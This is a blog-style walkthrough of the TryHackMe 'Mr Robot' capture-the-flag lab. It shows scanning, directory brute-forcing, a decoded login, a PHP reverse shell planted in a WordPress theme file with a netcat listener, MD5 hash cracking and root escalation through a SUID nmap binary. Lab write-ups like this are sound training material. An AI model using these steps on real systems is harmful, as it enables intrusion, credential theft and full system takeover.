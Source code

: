 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Try Hack Me - Mr Robot
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
sudo nmap -Pn -A 10.10.242.39
```


![image](https://github.com/user-attachments/assets/de811a40-544a-4d62-bafd-f03e64b11c4d)

Port scans revealed that ports 80 and 443 were open, indicating that HTTP and HTTPS services were running on these ports, respectively.

![image](https://github.com/user-attachments/assets/add084e3-351a-4e2a-89a7-c2a17e62f267)

Upon inspecting the source code, nothing useful was found. In addition to searching for the source code, the examination of the `robots.txt` file, which is used by search engine crawlers to determine which files are allowed for parsing, was carried out.

#### First Flag

![image](https://github.com/user-attachments/assets/654b72d0-0600-4270-b67f-8c484d9fcb98)

We now have two files: one is a text file containing the first key, and the other is a dictionary file.


#### Second Flag

Let's download the dictionary file and use it to perform a directory brute-force attack.
```
wget 10.10.144.37/fsocity.dic
```

```
gobuster dir -u http://10.10.144.37/ -w fsocity.dic
```

![image](https://github.com/user-attachments/assets/d634c8d3-b4d0-42ca-9bfc-eb29b404486b)


While brute-forcing the directories using the dictionary file, we discovered some interesting files. One of them was `license`. Upon accessing the `license` directory, we found a Base64-encoded value in the source code.

![image](https://github.com/user-attachments/assets/5310dbf4-f758-498f-92b0-10b39767c68d)

After decoding the Base64 string, we uncovered the username and password for login.

```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![image](https://github.com/user-attachments/assets/67210e9f-56d4-4a67-8159-8c0f10a94318)

```
elliot:ER28-0652
```
The username and password can be used to log in via the /login path, which was identified during the directory brute forcing process.

![image](https://github.com/user-attachments/assets/af2185cb-1545-4870-8c1e-4956588a5b2c)

![image](https://github.com/user-attachments/assets/ada544a9-71ac-4bd6-a2f5-dae38f08ca3d)

Now that we are logged in, let's use the PHP reverse shell from Kali Linux. We can upload it via the Editor in the Appearance menu by editing the header.php file. This ensures that whenever the website loads, the header.php file gets executed, allowing us to establish a connection back to our machine.

```
sudo updatedb
```

```
locate php-reverse-shell
```

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

![image](https://github.com/user-attachments/assets/b1622402-ae7b-4184-9ad0-591eaa7ff18d)

![image](https://github.com/user-attachments/assets/721e931d-972e-4525-8332-5a77c6f892a9)

![image](https://github.com/user-attachments/assets/51a7d4a4-042d-4386-a62d-1c0a817b0111)

![image](https://github.com/user-attachments/assets/0a5f9734-0b18-4d24-9560-eb1a67df13ca)


By listening on port `9001`, we successfully gained a connection when navigating to `/blog`, a page accessible only to the admin.

```
nc -nlvp 9001
```

![image](https://github.com/user-attachments/assets/3f7082ae-e5c5-414c-bb09-ed8107edc378)

After spawning /bin/bash using Python, I executed ls -la to list the files in the directory. It was revealed that we were logged in as the user daemon. However, the key file was only readable by the user robot. Another file, named password.raw-md5, contained an MD5 hash value.

```
python -c 'import pty;pty.spawn("/bin/bash");'
```
![image](https://github.com/user-attachments/assets/a7d99a16-7623-4745-a46e-24975db52f00)

![image](https://github.com/user-attachments/assets/7a0392b3-9374-43e0-9881-dab7781be9ab)

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Upon cracking the MD5 hash using CrackStation, the password for the robot user was discovered.

![image](https://github.com/user-attachments/assets/13599298-b649-4ad0-8fb0-6f86ddf448a8)

```
abcdefghijklmnopqrstuvwxyz
```
After switching the user and using the discovered password, we successfully logged in as robot. 

![image](https://github.com/user-attachments/assets/6e76fe37-69e4-4099-bd29-f73b35a2186d)

Now that we have access as robot, we can read the key file, revealing the second flag.


#### Privilege Escalation

```
sudo -l
```
Upon checking the user's privileges with `sudo -l`, it was identified that the user `robot` is not in the sudo group, meaning it doesn't have administrative privileges by default. This indicates that we will need to find another way to escalate privileges to gain root access.

![image](https://github.com/user-attachments/assets/3034c35a-de33-4a8f-9082-05f15f148105)


```
find / -perm -u=s -type f 2>/dev/null
```

By searching for SUID binaries, we discovered that nmap has the SUID bit set. This means nmap can be run with elevated privileges, even by a non-privileged user. We can potentially exploit this to escalate our privileges to root by using nmap's interactive mode to execute shell commands.

![image](https://github.com/user-attachments/assets/4b3d0431-1737-46d7-b863-c3eaa5c512bf)

Privilege escalation can be achieved by running the following commands:

1. Start nmap in interactive mode with:

```
nmap --interactive
```

2. Once in interactive mode, execute a shell with:

```
!sh
```

This grants root access, allowing us to further explore the system and complete the final steps of the CTF.

![image](https://github.com/user-attachments/assets/31174e70-dbd5-480b-a3ec-751bc2f6c5d7)

